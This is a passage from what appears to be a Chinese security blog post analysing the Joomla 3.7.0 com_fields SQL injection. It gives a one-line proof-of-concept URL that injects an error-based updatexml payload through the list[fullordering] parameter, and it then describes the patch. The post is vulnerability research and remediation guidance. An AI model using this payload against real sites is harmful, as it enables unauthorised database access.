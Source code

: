 可以看一下到这里$query的内容，传入的poc代码已成功拼接进入sql语句

![sql](http://reverse-tcp.xyz/img/Joomla/com_fields_sql.png)

这里附一张该漏洞的审计思路图，看起来比较复杂，但是表哥们配合本文调试一遍应该就都可以理解该漏洞了。

![mind](http://reverse-tcp.xyz/img/Joomla/com_fields_mind.png)

### 漏洞验证

POC：

```http
http://127.0.0.1/Joomla_3.7.0/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x3a,concat(1,(select md5(1))),1)
```

### 漏洞修复

升级最新版完整安装包以及升级补丁包

[https://downloads.joomla.org/cms/joomla3/3-7-1](https://downloads.joomla.org/cms/joomla3/3-7-1)

在文件\Joomla_3.7.0\libraries\legacy\model\list.php中，处理fullordering的时候，当不满足条件时，添加else条件处理过程，使用系统默认的值进行查询

![solution](http://reverse-tcp.xyz/img/Joomla/com_fields_solution.png)

### 感谢

第一次进行PHP代码审计漏洞应急，感谢xfkxfk指导，文章大部分内容也来自[xfkxfk的分析文章](http://blog.nsfocus.net/joomlav3-7-core-components-log-sql-injection-vulnerabilities/)，这个Joomla注入漏洞在调试的时候也是很繁琐，但理清思路后还是挺佩服黑产哥的 ​:sweat_smile:​

### 参考

[http://blog.nsfocus.net/joomlav3-7-core-components-log-sql-injection-vulnerabilities/](http://blog.nsfocus.net/joomlav3-7-core-components-log-sql-injection-vulnerabilities/)

[https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html](https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html)  

[http://bobao.360.cn/learning/detail/3868.html](http://bobao.360.cn/learning/detail/3868.html)

